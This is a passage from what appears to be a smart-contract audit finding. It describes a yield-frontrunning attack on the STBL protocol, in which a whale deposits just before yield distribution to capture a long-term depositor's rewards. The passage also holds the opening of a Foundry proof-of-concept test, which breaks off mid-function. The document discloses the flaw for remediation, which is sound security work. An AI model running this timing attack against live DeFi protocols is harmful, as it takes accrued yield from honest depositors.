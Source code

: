 The above design allows for the following attack vector (for simplicity, lets assume a 10% fees and Alice as the only depositor)

- Alice deposits $100,000, receives NFT representing her stake
- Price appreciation accumulates over yield duration - 30 days (e.g., $10,000 in OUSG price gains or USDY compound interest)
- Alice expects to receive ~$9,000 yield (after 10% protocol fees)
-  Bob monitors `previousDistribution + yieldDuration` to identify the exact distribution window (Bob also monitors the oracle updates and knows the price difference gives a significant upside on yield)
- Bob deposits $10,000,000 immediately before `distributeYield` is called
- Distribution occurs proportionally. Bob captures the bulk of rewards even though Alice staked for the entire 30 days

**Impact:** Longer term depositors can systematically lose accumulated rewards to opportunitistic whales who are OK to lock capital for yield duration.

**Proof of Concept:** Add the following test to `STBL_Test.t.sol`

```solidity
    /**
     * @notice Demonstrates the yield frontrunning attack
     * @dev Shows how a whale can capture majority of yield rewards despite minimal stake duration
     */
    function test_YieldMEVAttack() public {
        // Test amounts
        address alice = address(0x1001); // Long-term depositor
        address bob = address(0x1002);   // MEV attacker
        uint256 aliceDeposit = 100000e18; // $100,000 equivalent
        uint256 bobDeposit = 10000000e18; // $10,000,000 (whale deposit)

        // Step 1: Alice deposits early and holds for the full period
        console.log("--- Step 1: Alice (Long-term depositor) deposits $100k ---");

        // Get LT1 contracts (using asset ID 2)
        STBL_LT1_Issuer issuerContract = STBL_LT1_Issuer(getAssetIssuer(2));
        STBL_LT1_Vault vaultContract = STBL_LT1_Vault(getAssetVault(2));
        STBL_LT1_YieldDistributor yieldDistributorContract = STBL_LT1_YieldDistributor(getAssetYieldDistributor(2));
        STBL_LT1_TestOracle oracleContract = STBL_LT1_TestOracle(getAssetOracle(2));
        STBL_LT1_TestToken token = STBL_LT1_TestToken(getAssetToken(2));

        // Mint tokens to Alice and approve
        vm.startPrank(admin);
        token.mintVal(alice, aliceDeposit);
        vm.stopPrank();

        vm.startPrank(alice);
        token.approve(address(vaultContract), aliceDeposit);
        uint256 aliceNftId = issuerContract.deposit(aliceDeposit);
        vm.stopPrank();

        console.log("Alice's NFT ID:", aliceNftId);
        console.log("Alice's deposit amount:", aliceDeposit);

        // Step 2: Wait almost full yield duration and generate significant yield
        console.log("--- Step 2: Wait 29 days, generate significant yield ---");

        // Get current yield duration from asset config
        AssetDefinition memory assetData = registry.fetchAssetData(2);
        uint256 yieldDuration = assetData.yieldDuration;
        console.log("Yield duration (seconds):", yieldDuration);

        // Fast forward most of the duration (leave small window for Bob)
        uint256 timeToWait = yieldDuration - 86400; // 1 day before yield can be distributed
        vm.warp(block.timestamp + timeToWait);
```